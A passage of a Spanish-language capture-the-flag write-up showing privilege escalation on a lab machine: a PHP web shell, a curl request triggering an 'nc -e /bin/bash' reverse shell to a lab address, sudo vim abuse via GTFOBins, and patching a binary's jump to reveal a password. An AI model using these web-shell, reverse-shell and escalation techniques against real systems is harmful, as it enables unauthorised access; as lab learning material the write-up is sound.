 Ahora sí puedo acceder mediante ssh.

## Esladado de privilegios

El usuario pink no puede hacer nada por lo que hay que moverse lateralmente a www-data, que es como el fbi consiguio llegar a root en el servidor (Lo dice el autor antes en el archivo del principio) ;)

### www-data

Para tener una shell como www-data, creo una webshell en la carpeta "/var/www/html" y utilizo **curl** para la petición.

```
pink@color:/var/www/html$ cat sh.php
<?php system($_GET['cmd']);?>
```

```
$ curl 192.168.1.89/sh.php?cmd=nc+-e+/bin/bash+192.168.1.86+1234
```

```
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.86] from (UNKNOWN) [192.168.1.89] 49774
whoami
www-data
```

### Green

El escalado a green es sencillo ya que siendo www-data puedo ejecutar **vim** como el usuario Green. [GTFOBINS](https://gtfobins.github.io/gtfobins/vim/#sudo)

```
www-data@color:/var/www/html$ sudo -l
Matching Defaults entries for www-data on color:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on color:
    (green) NOPASSWD: /usr/bin/vim
```

### Purple

En el home de green existe un binario, **test_4_green**, en el que si adivinamos un número aleatorio se nos mostrará la contraseña de Purple.

Acertar el número es muy muy muy poco probable por lo que para conseguir la contraseña de manera rápida se puede hacer un pequeño parche en el binario, en la parte que comprueba el número que introducimos con el número que tendriamos que adivinar.

Lo que hay que hacer es modificar la comprobacion que hay justo encima de donde se puede leer "Correct". Hay que cambiar la intrucción "jne" por "je". Para esto yo he utilizado **[Radare2](https://github.com/radareorg/radare2)**.
